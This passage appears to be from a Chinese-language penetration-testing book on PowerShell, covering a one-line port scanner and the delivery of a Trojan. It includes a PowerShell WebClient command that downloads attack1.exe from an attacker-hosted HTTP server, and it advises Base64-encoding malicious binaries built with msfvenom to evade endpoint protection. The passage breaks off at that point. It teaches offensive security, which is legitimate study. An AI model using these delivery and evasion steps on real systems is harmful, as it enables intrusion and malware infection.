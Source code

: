 图 9.8 – PowerShell 端口扫描

如你所见，这只是将我们所学的基础知识提升到下一个层次。**1..1024** 定义了我们的端口范围，并将数组传递到 **%**；每次迭代时，都会启动一个 TCP 客户端模块，尝试连接该端口。**2>$null** 会将 **STDERR** 丢弃；换句话说，返回的错误意味着端口没有开放，响应会被丢弃。

我们从 TCP 和使用 Nmap 等工具的经验中知道，端口扫描策略有很多种；例如，半开扫描，其中 SYN 数据包被发送以引发开放端口的 **SYN-ACK** 响应，但没有通过 **ACK** **值** 完成握手。那么，在我们的快速且简易的端口扫描脚本背后到底发生了什么呢？它是一个 **Connect** 模块，用于 **TcpClient** – 该模块旨在创建 TCP 连接。它并不知道自己被用来做端口扫描。它正在尝试建立完整的三次握手，并且如果握手完成，它会成功返回。我们必须理解网络上发生了什么。

既然我们在与网络通信，那就让我们看看在需要将恶意程序传送到目标时，能做些什么。

## 通过 PowerShell 向目标传送 Trojan

你有 PowerShell 访问权限。你有一个 Trojan 文件放在 Kali 主机上，需要将其传送给目标。在这里，你可以将文件托管在 Kali 主机上，并使用 PowerShell 来避免恼人的浏览器警告和内存占用。

首先，我们使用 **python -m SimpleHTTPServer 80** 来托管文件，该命令在包含 Trojan 的文件夹中执行。当准备好后，我们可以执行一个 PowerShell 命令，利用 **WebClient** 下载文件并将其写入本地路径：

> (New-Object System.Net.WebClient).DownloadFile("http://192.168.63.143/attack1.exe", "c:\windows\temp\attack1.exe")

让我们看看在执行命令并运行 **ls** 验证时会是什么样子：

![图 9.9 – 从 HTTP 服务器下载 EXE 文件](img/Figure_9.9_B17616.jpg)

图 9.9 – 从 HTTP 服务器下载 EXE 文件

需要注意的是目标路径不是任意的；它必须存在。这个一行命令不会为你创建一个目录，所以如果你试图将其放在任何地方而没有确认主机上是否存在，可能会引发异常。假设这不是问题，并且命令已经执行完毕，我们可以**cd**进入选择的目录，看到我们的可执行文件已经准备就绪。

不过我知道你在想什么 - *像这样从网络中提取 EXE 文件并不是特别隐秘*。你说得对。任何值得一试的终端保护产品都会立即抓住这种尝试。我们需要考虑如何通过将文件转换为比普通可执行代码更不可疑的东西来偷运文件。如果我们将恶意二进制文件转换为 Base64 呢？然后，我们可以将其写入一个纯文本文件，PowerShell 可以像处理普通字符串一样处理它。让我们仔细看看。

# 在 PowerShell 中对二进制进行编码和解码

首先，我们将切换回我们的 Kali 系统，并使用**msfvenom**创建一个快速可执行的漏洞。然后，我们将通过使用**SimpleHTTPServer**将其发送到我们的 Windows 系统：

![图 9.10 – 构建和提供恶意可执行文件](img/Figure_9.10_B17616.jpg)
